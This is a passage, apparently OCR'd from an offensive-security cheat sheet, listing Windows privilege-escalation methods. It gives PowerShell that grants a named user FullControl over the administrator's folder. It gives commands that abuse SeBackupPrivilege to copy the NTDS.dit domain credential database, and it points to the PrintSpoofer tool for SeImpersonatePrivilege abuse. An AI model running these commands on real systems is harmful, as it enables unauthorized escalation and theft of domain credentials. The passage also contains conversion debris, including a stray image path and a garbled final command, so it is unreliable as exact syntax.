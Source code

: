Type: Abuse Privilege

Methods:

-   \$user = \"megacorp\\jorden\"

> \$folder = \"C:\\Users\\administrator\"
>
> \$acl = get-acl \$folder
>
> \$aclpermissions = \$user, \"FullControl\", \"ContainerInherit,
> ObjectInherit\", \"None\", \"Allow\"
>
> \$aclrule = new-object
> System.Security.AccessControl.FileSystemAccessRule \$aclpermissions
>
> \$acl.AddAccessRule(\$aclrule)
>
> set-acl -path \$folder -AclObject \$acl
>
> get-acl \$folder \| folder

<a name="escalate-with-sebackupprivilege"></a>
# Escalate With SeBackupPrivilege

Domain: Yes

Local Admin: Yes

OS: Windows

Type: Abuse Privilege

Methods:

import-module .\\SeBackupPrivilegeUtils.dll

import-module .\\SeBackupPrivilegeCmdLets.dll

Copy-FileSebackupPrivilege z:\\Windows\\NTDS\\ntds.dit
C:\\temp\\ndts.dit

<a name="escalate-with-seimpersonateprivilege"></a>
# Escalate With SeImpersonatePrivilege

Domain: Yes

Local Admin: Yes

OS: Windows

Type: Abuse Privilege

Methods:

https://github.com/dievus/printspoofer
